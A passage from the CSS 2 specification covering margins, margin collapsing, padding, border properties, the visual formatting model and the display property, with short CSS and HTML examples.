        background: yellow;
        margin: 12px 12px 12px 12px;
        padding: 3px 3px 3px 3px;
                                     /* No borders set */
      }
      LI {
        color: white;                /* text color is white */
        background: blue;            /* Content, padding will be blue */
        margin: 12px 12px 12px 12px;
        padding: 12px 0px 12px 12px; /* Note 0px padding right */
        list-style: none             /* no glyphs before a list item */
                                     /* No borders set */
      }
      LI.withborder {
        border-style: dashed;
        border-width: medium;        /* sets border width on all sides */
        border-color: lime;
      }
    </STYLE>
  </HEAD>
  <BODY>
    <UL>
      <LI>First element of list
      <LI class="withborder">Second element of list is
           a bit longer to illustrate wrapping.
    </UL>
  </BODY>
</HTML>
```

results in a document tree with (among other relationships) a UL element that has two LI children.

The first of the following diagrams illustrates what this example would produce. The second illustrates the relationship between the margins, padding, and borders of the UL elements and those of its children LI elements. (Image is not to scale.)


Note that:

- The content width for each LI box is calculated top-down; the [containing block](#css2:containing-block) for each LI box is established by the UL element.
- The margin box height of each LI box depends on its content height, plus top and bottom padding, borders, and margins. Note that vertical margins between the LI boxes [collapse.](#css2:collapsing-margins)
- The right padding of the LI boxes has been set to zero width (the `padding` property). The effect is apparent in the second illustration.
- The margins of the LI boxes are transparent — margins are always transparent — so the background color (yellow) of the UL padding and content areas shines through them.
- The second LI element specifies a dashed border (the `border-style` property).

#### 8.3. Margin properties: `margin-top`, `margin-right`, `margin-bottom`, `margin-left`, and `margin` {#css2:margin-properties}

Margin properties specify the width of the margin area of a box. The `margin` shorthand property sets the margin for all four sides while the other margin properties only set their respective side. These properties apply to all elements, but vertical margins will not have any effect on non-replaced inline elements.

The properties defined in this section refer to the **<margin-width>** value type, which may take one of the following values:

****`<length>`****

: Specifies a fixed width.

****`<percentage>`****

: The percentage is calculated with respect to the *width* of the generated box’s [containing block](#css2:containing-block). Note that this is true for `margin-top` and `margin-bottom` as well. If the containing block’s width depends on this element, then the resulting layout is undefined in CSS 2.

****auto****

: See the section on [calculating widths and margins](#css2:Computing_widths_and_margins) for behavior.

Negative values for margin properties are allowed, but there may be implementation-specific limits.

| Field | Value |
| --- | --- |
| Name: | **margin-top**, **margin-bottom** |
| [Value:](#css-values-4:value-defs) | `<margin-width>` \| inherit |
| [Initial:](#css-cascade-6:initial-values) | 0 |
| [Applies to:](#css-cascade-5:applies-to) | all elements except elements with table display types other than table-caption, table and inline-table |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | refer to width of containing block |
| [Computed value:](#css-cascade-6:computed) | the percentage as specified or the absolute length |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| Media: | visual |

> **Note:** These properties have no effect on non-replaced inline elements.

| Field | Value |
| --- | --- |
| Name: | **margin-right**, **margin-left** |
| [Value:](#css-values-4:value-defs) | `<margin-width>` \| inherit |
| [Initial:](#css-cascade-6:initial-values) | 0 |
| [Applies to:](#css-cascade-5:applies-to) | all elements except elements with table display types other than table-caption, table and inline-table |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | refer to width of containing block |
| [Computed value:](#css-cascade-6:computed) | the percentage as specified or the absolute length |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| Media: | visual |

These properties set the top, right, bottom, and left margin of a box.

> **Example:** ```css
> h1 { margin-top: 2em }
> ```

| Field | Value |
| --- | --- |
| Name: | **margin** |
| [Value:](#css-values-4:value-defs) | `<margin-width>`{1,4} \| inherit |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | all elements except elements with table display types other than table-caption, table and inline-table |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | refer to width of containing block |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| Media: | visual |

The `margin` property is a shorthand property for setting `margin-top`, `margin-right`, `margin-bottom`, and `margin-left` at the same place in the style sheet.

If there is only one component value, it applies to all sides. If there are two values, the top and bottom margins are set to the first value and the right and left margins are set to the second. If there are three values, the top is set to the first value, the left and right are set to the second, and the bottom is set to the third. If there are four values, they apply to the top, right, bottom, and left, respectively.

> **Example:** ```css
> body { margin: 2em }         /* all margins set to 2em */
> body { margin: 1em 2em }     /* top & bottom = 1em, right & left = 2em */
> body { margin: 1em 2em 3em } /* top=1em, right=2em, bottom=3em, left=2em */
> ```
>
> The last rule of the example above is equivalent to the example below:
>
> ```css
> body {
>   margin-top: 1em;
>   margin-right: 2em;
>   margin-bottom: 3em;
>   margin-left: 2em;        /* copied from opposite side (right) */
> }
> ```

##### 8.3.1. Collapsing margins {#css2:collapsing-margins}

In CSS, the adjoining margins of two or more boxes (which might or might not be siblings) can combine to form a single margin. Margins that combine this way are said to **collapse**, and the resulting combined margin is called a **collapsed margin**.

Adjoining vertical margins collapse, except:

- Margins of the root element’s box do not collapse.
- If the top and bottom margins of an element with clearance are adjoining, its margins collapse with the adjoining margins of following siblings but that resulting margin does not collapse with the bottom margin of the parent block.

Horizontal margins never collapse.

Two margins are **adjoining** if and only if:

- both belong to in-flow [block-level boxes](#css2:block-boxes) that participate in the same [block formatting context](#css2:block-formatting)
- no line boxes, no clearance, no padding and no border separate them (Note that [certain zero-height line boxes](#css2:phantom-line-box) (see [9.4.2](#css2:inline-formatting)) are ignored for this purpose.)
- both belong to vertically-adjacent box edges, i.e. form one of the following pairs:

  - top margin of a box and top margin of its first in-flow child
  - bottom margin of box and top margin of its next in-flow following sibling
  - bottom margin of a last in-flow child and bottom margin of its parent if the parent has `auto` computed height
  - top and bottom margins of a box that does not establish a new block formatting context and that has zero computed `min-height`, zero or `auto` computed `height`, and no in-flow children

A collapsed margin is considered adjoining to another margin if any of its component margins is adjoining to that margin.

> **Note:** **Note.** Adjoining margins can be generated by elements that are not related as siblings or ancestors.

> **Note:** **Note** the above rules imply that:
>
> - Margins between a [floated](#css2:floats) box and any other box do not collapse (not even between a float and its in-flow children).
> - Margins of elements that establish new block formatting contexts (such as floats and elements with `overflow` other than `visible`) do not collapse with their in-flow children.
> - Margins of absolutely positioned boxes do not collapse (not even with their in-flow children).
> - Margins of inline-block boxes do not collapse (not even with their in-flow children).
> - The bottom margin of an in-flow block-level element always collapses with the top margin of its next in-flow block-level sibling, unless that sibling has clearance.
> - The top margin of an in-flow block element collapses with its first in-flow block-level child’s top margin if the element has no top border, no top padding, and the child has no clearance.
> - The bottom margin of an in-flow block box with a `height` of `auto` and a `min-height` of zero collapses with its last in-flow block-level child’s bottom margin if the box has no bottom padding and no bottom border and the child’s bottom margin does not collapse with a top margin that has clearance.
> - A box’s own margins collapse if the `min-height` property is zero, and it has neither top or bottom borders nor top or bottom padding, and it has a `height` of either 0 or `auto`, and it does not contain a line box, and all of its in-flow children’s margins (if any) collapse.

When two or more margins collapse, the resulting margin width is the maximum of the collapsing margins' widths. In the case of negative margins, the maximum of the absolute values of the negative adjoining margins is deducted from the maximum of the positive adjoining margins. If there are no positive margins, the maximum of the absolute values of the adjoining margins is deducted from zero.

If the top and bottom margins of a box are adjoining, then it is possible for margins to **collapse through** it. In this case, the position of the element depends on its relationship with the other elements whose margins are being collapsed.

- If the element’s margins are collapsed with its parent’s top margin, the top border edge of the box is defined to be the same as the parent’s.
- Otherwise, either the element’s parent is not taking part in the margin collapsing, or only the parent’s bottom margin is involved. The position of the element’s top border edge is the same as it would have been if the element had a non-zero bottom border.

Note that the positions of elements that have been collapsed through have no effect on the positions of the other elements with whose margins they are being collapsed; the top border edge position is only required for laying out descendants of these elements.

#### 8.4. Padding properties: `padding-top`, `padding-right`, `padding-bottom`, `padding-left`, and `padding` {#css2:padding-properties}

The padding properties specify the width of the padding area of a box. The `padding` shorthand property sets the padding for all four sides while the other padding properties only set their respective side.

The properties defined in this section refer to the **<padding-width>**  value type, which may take one of the following values:

****`<length>`****

: Specifies a fixed width.

****`<percentage>`****

: The percentage is calculated with respect to the *width* of the generated box’s [containing block](#css2:containing-block), even for `padding-top` and `padding-bottom`. If the containing block’s width depends on this element, then the resulting layout is undefined in CSS 2.

Unlike margin properties, values for padding values cannot be negative. Like margin properties, percentage values for padding properties refer to the width of the generated box’s containing block.

| Field | Value |
| --- | --- |
| Name: | **padding-top**, **padding-right**, **padding-bottom**, **padding-left** |
| [Value:](#css-values-4:value-defs) | `<padding-width>` \| inherit |
| [Initial:](#css-cascade-6:initial-values) | 0 |
| [Applies to:](#css-cascade-5:applies-to) | all elements except table-row-group, table-header-group, table-footer-group, table-row, table-column-group and table-column |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | refer to width of containing block |
| [Computed value:](#css-cascade-6:computed) | the percentage as specified or the absolute length |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| Media: | visual |

These properties set the top, right, bottom, and left padding of a box.

> **Example:** ```css
> blockquote { padding-top: 0.3em }
> ```

| Field | Value |
| --- | --- |
| Name: | **padding** |
| [Value:](#css-values-4:value-defs) | `<padding-width>`{1,4} \| inherit |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | all elements except table-row-group, table-header-group, table-footer-group, table-row, table-column-group and table-column |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | refer to width of containing block |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| Media: | visual |

The `padding` property is a shorthand property for setting `padding-top`, `padding-right`, `padding-bottom`, and `padding-left` at the same place in the style sheet.

If there is only one component value, it applies to all sides. If there are two values, the top and bottom paddings are set to the first value and the right and left paddings are set to the second. If there are three values, the top is set to the first value, the left and right are set to the second, and the bottom is set to the third. If there are four values, they apply to the top, right, bottom, and left, respectively.

The surface color or image of the padding area is specified via the `background` property:

> **Example:** ```css
> h1 {
>   background: white;
>   padding: 1em 2em;
> }
> ```
>
> The example above specifies a `1em` vertical padding (`padding-top` and `padding-bottom`) and a `2em` horizontal padding (`padding-right` and `padding-left`). The `em` unit is [relative](#css2:absrel-units) to the element’s font size: `1em` is equal to the size of the font in use.

#### 8.5. Border properties {#css2:border-properties}

The border properties specify the width, color, and style of the border area of a box. These properties apply to all elements.

> **Note:** ***Note.** Notably for HTML, user agents may render borders for certain user interface elements (e.g., buttons, menus, etc.) differently than for "ordinary" elements.*

##### 8.5.1. Border width: `border-top-width`, `border-right-width`, `border-bottom-width`, `border-left-width`, and `border-width` {#css2:border-width-properties}

The border width properties specify the width of the border area. The properties defined in this section refer to the **<border-width>** value type, which may take one of the following values:

****thin****

: A thin border.

****medium****

: A medium border.

****thick****

: A thick border.

****`<length>`****

: The border’s thickness has an explicit value. Explicit border widths cannot be negative.

The interpretation of the first three values depends on the user agent. The following relationships must hold, however:

`thin` ≤ `medium` ≤ `thick`.

Furthermore, these widths must be constant throughout a document.

| Field | Value |
| --- | --- |
| Name: | **border-top-width**, **border-right-width**, **border-bottom-width**, **border-left-width** |
| [Value:](#css-values-4:value-defs) | `<border-width>` \| inherit |
| [Initial:](#css-cascade-6:initial-values) | medium |
| [Applies to:](#css-cascade-5:applies-to) | * |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | absolute length; `0` if the border style is `none` or `hidden` |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| Media: | visual |

These properties set the width of the top, right, bottom, and left border of a box.

| Field | Value |
| --- | --- |
| Name: | **border-width** |
| [Value:](#css-values-4:value-defs) | `<border-width>`{1,4} \| inherit |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | * |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| Media: | visual |

This property is a shorthand property for setting `border-top-width`, `border-right-width`, `border-bottom-width`, and `border-left-width` at the same place in the style sheet.

If there is only one component value, it applies to all sides. If there are two values, the top and bottom borders are set to the first value and the right and left are set to the second. If there are three values, the top is set to the first value, the left and right are set to the second, and the bottom is set to the third. If there are four values, they apply to the top, right, bottom, and left, respectively.

> **Example:** In the examples below, the comments indicate the resulting widths of the top, right, bottom, and left borders:
>
> ```css
> h1 { border-width: thin }                   /* thin thin thin thin */
> h1 { border-width: thin thick }             /* thin thick thin thick */
> h1 { border-width: thin thick medium }      /* thin thick medium thick */
> ```

##### 8.5.2. Border color: `border-top-color`, `border-right-color`, `border-bottom-color`, `border-left-color`, and `border-color` {#css2:border-color-properties}

The border color properties specify the color of a box’s border.

| Field | Value |
| --- | --- |
| Name: | **border-top-color**, **border-right-color**, **border-bottom-color**, **border-left-color** |
| [Value:](#css-values-4:value-defs) | `<color>` \| transparent \| inherit |
| [Initial:](#css-cascade-6:initial-values) | the value of the `color` property |
| [Applies to:](#css-cascade-5:applies-to) | * |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | when taken from the `color` property, the computed value of `color`; otherwise, as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| Media: | visual |

| Field | Value |
| --- | --- |
| Name: | **border-color** |
| [Value:](#css-values-4:value-defs) | [ `<color>` \| transparent ]{1,4} \| inherit |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | * |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| Media: | visual |

The `border-color` property sets the color of the four borders. Values have the following meanings:

****`<color>`****

: Specifies a color value.

****transparent****

: The border is transparent (though it may have width).

The `border-color` property can have from one to four component values, and the values are set on the different sides as for `border-width`.

If an element’s border color is not specified with a border property, user agents must use the value of the element’s `color` property as the computed value for the border color.

> **Example:** In this example, the border will be a solid black line.
>
> ```css
> p {
>   color: black;
>   background: white;
>   border: solid;
> }
> ```

##### 8.5.3. Border style: `border-top-style`, `border-right-style`, `border-bottom-style`, `border-left-style`, and `border-style` {#css2:border-style-properties}

The border style properties specify the line style of a box’s border (solid, double, dashed, etc.). The properties defined in this section refer to the **<border-style>** value type, which may take one of the following values:

****none****

: No border; the computed border width is zero.

****hidden****

: Same as `none`, except in terms of [border conflict resolution](#css2:border-conflict-resolution) for [table elements](#css2:tables).

****dotted****

: The border is a series of dots.

****dashed****

: The border is a series of short line segments.

****solid****

: The border is a single line segment.

****double****

: The border is two solid lines. The sum of the two lines and the space between them equals the value of `border-width`.

****groove****

: The border looks as though it were carved into the canvas.

****ridge****

: The opposite of `groove`: the border looks as though it were coming out of the canvas.

****inset****

: The border makes the box look as though it were embedded in the canvas.

****outset****

: The opposite of `inset`: the border makes the box look as though it were coming out of the canvas.

All borders are drawn on top of the box’s background. The color of borders drawn for values of `groove`, `ridge`, `inset`, and `outset` depends on the element’s [border color properties](#css2:border-color-properties), but UAs may choose their own algorithm to calculate the actual colors used. For instance, if the `border-color` has the value `silver`, then a UA could use a gradient of colors from white to dark gray to indicate a sloping border.

| Field | Value |
| --- | --- |
| Name: | **border-top-style**, **border-right-style**, **border-bottom-style**, **border-left-style** |
| [Value:](#css-values-4:value-defs) | `<border-style>` \| inherit |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | * |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

| Field | Value |
| --- | --- |
| Name: | **border-style** |
| [Value:](#css-values-4:value-defs) | `<border-style>`{1,4} \| inherit |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | * |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| Media: | visual |

The `border-style` property sets the style of the four borders. It can have from one to four component values, and the values are set on the different sides as for `border-width` above.

> **Example:** ```css
> #xy34 { border-style: solid dotted }
> ```
>
> In the above example, the horizontal borders will be `solid` and the vertical borders will be `dotted`.

Since the initial value of the border styles is `none`, no borders will be visible unless the border style is set.

##### 8.5.4. Border shorthand properties: `border-top`, `border-right`, `border-bottom`, `border-left`, and `border` {#css2:border-shorthand-properties}

| Field | Value |
| --- | --- |
| Name: | **border-top**, **border-right**, **border-bottom**, **border-left** |
| [Value:](#css-values-4:value-defs) | [ `<border-width>` \|\| `<border-style>` \|\| `<'border-top-color'>` ] \| inherit |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | * |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| Media: | visual |

This is a shorthand property for setting the width, style, and color of the top, right, bottom, and left border of a box.

> **Example:** ```css
> h1 { border-bottom: thick solid red }
> ```
>
> The above rule will set the width, style, and color of the border **below** the H1 element. Omitted values are set to their [initial values](#css2:initial-value). Since the following rule does not specify a border color, the border will have the color specified by the `color` property:
>
> ```css
> H1 { border-bottom: thick solid }
> ```

| Field | Value |
| --- | --- |
| Name: | **border** |
| [Value:](#css-values-4:value-defs) | [ `<border-width>` \|\| `<border-style>` \|\| `<'border-top-color'>` ] \| inherit |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | * |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| Media: | visual |

The `border` property is a shorthand property for setting the same width, color, and style for all four borders of a box. Unlike the shorthand `margin` and `padding` properties, the `border` property cannot set different values on the four borders. To do so, one or more of the other border properties must be used.

> **Example:** For example, the first rule below is equivalent to the set of four rules shown after it:
>
> ```css
> p { border: solid red }
> p {
>   border-top: solid red;
>   border-right: solid red;
>   border-bottom: solid red;
>   border-left: solid red
> }
> ```

Since, to some extent, the properties have overlapping functionality, the order in which the rules are specified is important.

> **Example:** Consider this example:
>
> ```css
> blockquote {
>   border: solid red;
>   border-left: double;
>   color: black;
> }
> ```
>
> In the above example, the color of the left border is black, while the other borders are red. This is due to `border-left` setting the width, style, and color. Since the color value is not given by the `border-left` property, it will be taken from the `color` property. The fact that the `color` property is set after the `border-left` property is not relevant.

#### 8.6. The box model for inline elements in bidirectional context {#css2:bidi-box-model}

For each line box, UAs must take the inline boxes generated for each element and render the margins, borders and padding in visual order (not logical order).

When the element’s `direction` property is `ltr`, the left-most generated box of the first line box in which the element appears has the left margin, left border and left padding, and the right-most generated box of the last line box in which the element appears has the right padding, right border and right margin.

When the element’s `direction` property is `rtl`, the right-most generated box of the first line box in which the element appears has the right padding, right border and right margin, and the left-most generated box of the last line box in which the element appears has the left margin, left border and left padding.

### 9. Visual formatting model {#css2:visuren}

#### 9.1. Introduction to the visual formatting model {#css2:visual-model-intro}

This chapter and the next describe the **visual formatting model**: how user agents process the document tree for visual [media](#css2:media).

In the visual formatting model, each element in the document tree generates zero or more boxes according to the [box model](#css2:box-model). The layout of these boxes is governed by:

- [box dimensions](#css2:box-dimensions) and [type](#css2:box-gen).
- [positioning scheme](#css2:positioning-scheme) (normal flow, float, and absolute positioning).
- relationships between elements in the document tree.
- external information (e.g., viewport size, intrinsic dimensions of images, etc.).

The properties defined in this chapter and the next apply to both continuous media and paged media.  However, the meanings of the [margin properties](#css2:margin-properties) vary when applied to paged media (see the [page model](#css2:page-margins) for details).

The visual formatting model does not specify all aspects of formatting (e.g., it does not specify a letter-spacing algorithm). [Conforming user agents](#css2:conformance) may behave differently for those formatting issues not covered by this specification.

##### 9.1.1. The viewport {#css2:viewport}

User agents for continuous media generally offer users a  **viewport** (a window or other viewing area on the screen) through which users consult a document. User agents may change the document’s layout when the viewport is resized (see the [initial containing block](#css2:containing-block-details)).

When the viewport is smaller than the area of the canvas on which the document is rendered, the user agent should offer a scrolling mechanism.

There is at most one viewport per canvas, but user agents may render to more than one canvas (i.e., provide different views of the same document).

##### 9.1.2.  Containing blocks {#css2:containing-block}

In CSS 2, many box positions and sizes are calculated with respect to the edges of a rectangular box called a containing block. In general, generated boxes act as containing blocks for descendant boxes; we say that a box "establishes" the containing block for its descendants. The phrase "a box’s containing block" means "the containing block in which the box lives," not the one it generates.

Each box is given a position with respect to its containing block, but it is not confined by this containing block; it may overflow.

The [details](#css2:containing-block-details) of how a containing block’s dimensions are calculated are described in the [next chapter](#css2:visudet).

#### 9.2. Controlling box generation {#css2:box-gen}

The following sections describe the types of boxes that may be generated in CSS 2. A box’s type affects, in part, its behavior in the visual formatting model. The `display` property, described below, specifies a box’s type.

##### 9.2.1. Block-level elements and block boxes {#css2:block-boxes}

**Block-level elements** are those elements of the source document that are formatted visually as blocks (e.g., paragraphs). The following values of the `display` property make an element block-level: `block`, `list-item`, and `table`.

**Block-level boxes** are boxes that participate in a [block formatting context.](#css2:block-formatting) Each block-level element generates a **principal block-level box** that contains descendant boxes and generated content and is also the box involved in any positioning scheme.

Some block-level elements may generate additional boxes in addition to the principal box: `list-item` elements. These additional boxes are placed with respect to the principal box.

Except for table boxes, which are described in a later chapter, and replaced elements, a block-level box is also a block container box. A **block container box** either contains only block-level boxes or establishes an inline formatting context and thus contains only inline-level boxes. Not all block container boxes are block-level boxes: non-replaced inline blocks and non-replaced table cells are block containers but not block-level boxes. Block-level boxes that are also block containers are called **block boxes**.

The three terms "block-level box," "block container box," and "block box" are sometimes abbreviated as "block" where unambiguous.

###### 9.2.1.1. Anonymous block boxes {#css2:anonymous-block-level}

In a document like this:

```html
<DIV>
  Some text
  <P>More text
</DIV>
```

(and assuming the DIV and the P both have 'display: block'), the DIV appears to have both inline content and block content. To make it easier to define the formatting, we assume that there is an ***anonymous block box*** around "Some text".


Diagram showing the three boxes, of which one is anonymous, for the example above.

In other words: if a block container box (such as that generated for the DIV above) has a block-level box inside it (such as the P above), then we force it to have *only* block-level boxes inside it.

When an inline box contains an in-flow block-level box, the inline box (and its inline ancestors within the same line box) is broken around the block-level box (and any block-level siblings that are consecutive or separated only by collapsible whitespace and/or out-of-flow elements), splitting the inline box into two boxes (even if either side is empty), one on each side of the block-level box(es). The line boxes before the break and after the break are enclosed in anonymous block boxes, and the block-level box becomes a sibling of those anonymous boxes. When such an inline box is affected by relative positioning, any resulting translation also affects the block-level box contained in the inline box.

> **Example:** This model would apply in the following example if the following rules:
>
> ```css
> p    { display: inline }
> span { display: block }
> ```
>
> were used with this HTML document:
>
> ```html
> <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN">
> <HEAD>
> <TITLE>Anonymous text interrupted by a block</TITLE>
> </HEAD>
> <BODY>
> <P>
> This is anonymous text before the SPAN.
> <SPAN>This is the content of SPAN.</SPAN>
> This is anonymous text after the SPAN.
> </P>
> </BODY>
> ```
>
> The P element contains a chunk (C1) of anonymous text followed by a block-level element followed by another chunk (C2) of anonymous text. The resulting boxes would be a block box representing the BODY, containing an anonymous block box around C1, the SPAN block box, and another anonymous block box around C2.

The properties of anonymous boxes are inherited from the enclosing non-anonymous box (e.g., in the example just below the subsection heading "Anonymous block boxes", the one for DIV). Non-inherited properties have their initial value. For example, the font of the anonymous box is inherited from the DIV, but the margins will be 0.

Properties set on elements that cause anonymous block boxes to be generated still apply to the boxes and content of that element. For example, if a border had been set on the P element in the above example, the border would be drawn around C1 (open at the end of the line) and C2 (open at the start of the line).

Some user agents have implemented borders on inlines containing blocks in other ways, e.g., by wrapping such nested blocks inside "anonymous line boxes" and thus drawing inline borders around such boxes. As CSS1 and CSS2 (1998) did not define this behavior, CSS1-only and CSS2 (1998)-only user agents may implement this alternative model and still claim conformance to this part of CSS 2. This does not apply to UAs developed after this specification was released.

Anonymous block boxes are ignored when resolving percentage values that would refer to it: the closest non-anonymous ancestor box is used instead. For example, if the child of the anonymous block box inside the DIV above needs to know the height of its containing block to resolve a percentage height, then it will use the height of the containing block formed by the DIV, not of the anonymous block box.

##### 9.2.2. Inline-level elements and inline boxes {#css2:inline-boxes}

**Inline-level elements** are those elements of the source document that do not form new blocks of content; the content is distributed in lines (e.g., emphasized pieces of text within a paragraph, inline images, etc.). The following values of the `display` property make an element inline-level: `inline`, `inline-table`, and `inline-block`.

Inline-level elements generate **inline-level boxes**, which are boxes that participate in an inline formatting context.

An **inline box** is one that is both inline-level and whose contents participate in its containing inline formatting context. A non-replaced element with a `display` value of `inline` generates an inline box. Inline-level boxes that are not inline boxes (such as replaced inline-level elements, inline-block elements, and inline-table elements) are called **atomic inline-level boxes** because they participate in their inline formatting context as a single opaque box.

###### 9.2.2.1. Anonymous inline boxes {#css2:anonymous①}

Any text that is directly contained inside a block container element (not inside an inline element) must be treated as an anonymous inline element.

In a document with HTML markup like this:

> **Example:** ```html
> <p>Some <em>emphasized</em> text</p>
> ```

the `<p>` generates a block box, with several inline boxes inside it. The box for "emphasized" is an inline box generated by an inline element (`<em>`), but the other boxes ("Some" and "text") are inline boxes generated by a block-level element (`<p>`). The latter are called **anonymous inline boxes**, because they do not have an associated inline-level element.

Such anonymous inline boxes inherit inheritable properties from their block parent box. Non-inherited properties have their initial value. In the example, the color of the anonymous inline boxes is inherited from the P, but the background is transparent.

White space content that would subsequently be collapsed away according to the `white-space` property does not generate any anonymous inline boxes.

If it is clear from the context which type of anonymous box is meant, both anonymous inline boxes and anonymous block boxes are simply called anonymous boxes in this specification.

There are more types of anonymous boxes that arise when formatting [tables](#css2:anonymous-boxes).

##### 9.2.3. Run-in boxes {#css2:run-in}

[This section exists so that the section numbers are the same as in previous drafts. `display: run-in` is now defined in CSS level 3 (see [CSS basic box model](/TR/css3-box)).]

##### 9.2.4. The `display` property {#css2:display-prop}

| Field | Value |
| --- | --- |
| Name: | **display** |
| [Value:](#css-values-4:value-defs) | inline \| block \| list-item \| inline-block \| table \| inline-table \| table-row-group \| table-header-group \| table-footer-group \| table-row \| table-column-group \| table-column \| table-cell \| table-caption \| none \| inherit |
| [Initial:](#css-cascade-6:initial-values) | inline |
| [Applies to:](#css-cascade-5:applies-to) | * |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | see text |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | all |

The values of this property have the following meanings:

****block****

: This value causes an element to generate a block box.

****inline-block****

: This value causes an element to generate an inline-level block container. The inside of an inline-block is formatted as a block box, and the element itself is formatted as an atomic inline-level box.

****inline****

: This value causes an element to generate one or more inline boxes.

****list-item****

: This value causes an element (e.g., LI in HTML) to generate a principal block box and a marker box. For information about lists and examples of list formatting, please consult the section on [lists](#css2:lists).

****none****

: This value causes an element to not appear in the formatting structure (i.e., in visual media the element generates no boxes and has no effect on layout). Descendant elements do not generate any boxes either; the element and its content are removed from the formatting structure entirely. This behavior **cannot** be overridden by setting the `display` property on the descendants.

  Please note that a display of `none` does not create an invisible box; it creates no box at all. CSS includes mechanisms that enable an element to generate boxes in the formatting structure that affect formatting but are not visible themselves. Please consult the section on [visibility](#css2:visibility) for details.

****table**, **inline-table**, **table-row-group**, **table-column**, **table-column-group**, **table-header-group**, **table-footer-group**, **table-row**, **table-cell**, and **table-caption****

: These values cause an element to behave like a table element (subject to restrictions described in the chapter on [tables](#css2:tables)).

The computed value is the same as the specified value, except for positioned and floating elements (see [Relationships between `display`, `position`, and `float`](#css2:dis-pos-flo)) and for the root element. For the root element, the computed value is changed as described in the section on the [relationships between `display`, `position`, and `float`](#css2:dis-pos-flo).

Note that although the [initial value](#css2:initial-value) of `display` is `inline`, rules in the user agent’s default style sheet may [override](#css2:assigning) this value. See the [sample style sheet](#css2:html-stylesheet) for HTML 4 in the appendix.

> **Example:** Here are some examples of the `display` property:
>
> ```css
> p   { display: block }
> em  { display: inline }
> li  { display: list-item }
> img { display: none }      /* Do not display images */
> ```

#### 9.3. Positioning schemes {#css2:positioning-scheme}

In CSS 2, a box may be laid out according to three **positioning schemes:**

1. [Normal flow](#css2:normal-flow). In CSS 2, normal flow includes [block formatting](#css2:block-formatting) of block-level boxes, [inline formatting](#css2:inline-formatting) of inline-level boxes, and [relative positioning](#css2:relative-positioning) of block-level and inline-level boxes.
